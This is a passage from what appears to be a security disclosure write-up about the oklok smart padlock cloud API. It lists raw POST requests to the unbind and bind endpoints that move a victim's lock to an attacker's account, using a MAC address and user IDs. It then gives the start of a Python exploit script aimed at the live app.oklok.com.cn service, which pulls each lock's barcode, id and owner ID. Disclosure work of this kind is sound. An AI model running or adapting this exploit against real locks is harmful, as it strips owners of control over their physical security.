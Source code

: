 ```
      "mac":"6C:C3:74:DB:29:4D",
      "name":"lock",
      "radioName":"BlueFPL",
      "type":0,
      "userId":59727
   }
```

### Request 3

```
POST /oklock/lock/unbind

{"lockId":"90410","userId":59727}
```
### Request 4

```
POST /oklock/lock/bind

{"name":"newname","userId":59724,"mac":"6C:C3:74:DB:29:4D"}
```

## That's it!

You should have the lock transferred to your account. The severity of this
issue lies in the fact that the original owner completely loses access to
their lock. They can't even "rebind" to get it back, since the current owner 
(the attacker) needs to authorize that. 

## Exploit Code

```python
import requests
import json
import sys

lock = {
    'userid': '',
    'lockid': '',
    'barcode': '',
    'mac': '',
    'name': ''
}


def query_device(h):
    data = {"mac" : lock['mac']}
    url = "https://app.oklok.com.cn/oklock/lock/queryDevice"
    resp = requests.request("POST", url, json=data, headers=h)
    lockinfo=resp.json()
    lock['barcode'] = lockinfo['result']['barcode']
    lock['lockid'] = lockinfo['result']['id']
    lock['name'] = lockinfo['result']['name']


def get_device_info(h):
    data = {"barcode":"https://app.oklok.com.cn/app.html?id={}".format(lock['barcode'])}
    url = "https://app.oklok.com.cn/oklock/lock/getDeviceInfo"
    resp = requests.request("POST", url, json=data, headers=h)
    lockinfo=resp.json()
    lock['userid'] = lockinfo['result']['userId']

```
